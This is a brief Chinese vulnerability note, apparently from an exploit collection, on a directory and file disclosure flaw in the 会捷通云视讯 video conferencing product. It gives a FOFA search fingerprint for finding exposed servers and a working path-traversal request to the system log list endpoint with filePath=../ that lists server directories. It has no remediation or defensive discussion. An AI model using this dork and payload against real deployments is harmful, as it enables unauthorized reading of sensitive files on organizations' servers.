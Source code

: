 # 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](image/zc-1.png)

访问Url

```
/him/api/rest/V1.0/system/log/list?filePath=../
```

![](image/zc-2.png)